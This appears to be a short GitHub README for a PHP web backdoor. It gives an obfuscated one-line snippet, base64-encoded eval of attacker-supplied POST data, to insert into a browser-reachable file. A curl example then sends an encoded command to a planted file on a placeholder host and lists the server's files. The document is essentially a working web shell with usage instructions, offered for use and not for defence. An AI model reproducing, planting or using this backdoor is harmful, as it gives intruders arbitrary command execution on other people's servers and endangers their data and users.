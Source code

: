 # Backdoor
==========

## Install

Insert in document to which you have direct access from the browser, the following code

```php
<?eval(base64_decode('aWYoaXNzZXQoJF9QT1NUWychJ10pKWV4aXQoZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsnISddKSkpOw=='))?>
```

Open backdoor client in the browser to execute any the commands on remote host


## Example use for cURL

```shell
# cHJpbnRfcihzY2FuZGlyKGRpcm5hbWUoX19GSUxFX18pKSk7 == base64_encode('print_r(scandir(dirname(__FILE__)));')
curl --data "!=cHJpbnRfcihzY2FuZGlyKGRpcm5hbWUoX19GSUxFX18pKSk7" http://example.com/wconfig.php
```

Return all files in the root dirrectory
